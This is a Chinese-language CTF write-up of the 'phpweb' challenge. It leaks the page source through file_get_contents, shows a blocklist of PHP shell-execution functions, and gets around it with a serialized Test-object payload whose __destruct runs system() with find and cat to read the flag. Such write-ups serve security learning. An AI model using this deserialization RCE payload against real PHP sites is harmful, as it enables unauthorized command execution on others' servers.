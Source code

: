 ![[Pasted image 20221113204640.png]]

---
每隔五秒`POST`一次，传递`func`和`p`参数
![[Pasted image 20221113204657.png]]
![[Pasted image 20221113204833.png]]
```php
func=abc&p=123
```
> call_user_func() expects parameter 1 to be a valid callback, function 'abc' not found or invalid function name

尝试`system`执行
```php
func=system&p=ls
```
> Hacker...

被过滤了QAQ

再尝试`file_get_contents`获取`flag`
```php
func=file_get_contents&p=/flag
```
> file_get_contents(/flag): failed to open stream: No such file or directory

并没有`/flag`这个文件，但是`file_get_contents`没有被过滤，尝试利用这一点获取`index.php`的内容
```php
func=file_get_contents&p=index.php
```

```php
<!DOCTYPE html>
<html>
	<head>
	    <title>phpweb</title>
	    <style type="text/css">
	        body {
	            background: url("bg.jpg") no-repeat;
	            background-size: 100%;
	        }
	        p {
	            color: white;
	        }
	    </style>
	</head>

	<body>
	<script language=javascript>
	    setTimeout("document.form1.submit()",5000)
	</script>
	<p>
	    <?php
	    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	    function gettime($func, $p) {
	        $result = call_user_func($func, $p);
	        $a= gettype($result);
	        if ($a == "string") {
	            return $result;
	        } else {return "";}
	    }
	    class Test {
	        var $p = "Y-m-d h:i:s a";
	        var $func = "date";
	        function __destruct() {
	            if ($this->func != "") {
	                echo gettime($this->func, $this->p);
	            }
	        }
	    }
	    $func = $_REQUEST["func"];
	    $p = $_REQUEST["p"];
	
	    if ($func != null) {
	        $func = strtolower($func);
	        if (!in_array($func,$disable_fun)) {
	            echo gettime($func, $p);
	        }else {
	            die("Hacker...");
	        }
	    }
	    ?>
	</p>
	<form  id=form1 name=form1 action="index.php" method=post>
	    <input type=hidden id=func name=func value='date'>
	    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
	</body>
</html>
```
好家伙，ban了这么多
注意到有个从没用到的`Test`类，里边还有个`__destruct`方法，而且`unserialize`也没被ban，看来反序列化八九不离十了
大致思路是构造payload，利用反序列化生成`Test`类的一个对象，再借由其`__destruct`方法绕过过滤

```php
<?php
class Test {
    var $p;
    var $func;
}

$payload = new Test;
$payload->func = "system";
$payload->p = 'find / -name *flag*';
echo serialize($payload);
?>
```
> O:4:"Test":2:{s:1:"p";s:19:"find / -name \*flag\*";s:4:"func";s:6:"system";}
```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}
```

```
...
/tmp/flagoefiu4r93
...
```
---
读取`flag`
```php
$payload->p = 'cat /tmp/flagoefiu4r93';
```
> O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}

```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```
```
flag{3b352024-0ec2-4ac3-a110-9cbd86917b0c}
```
#Web #PHP #反序列化 #RCE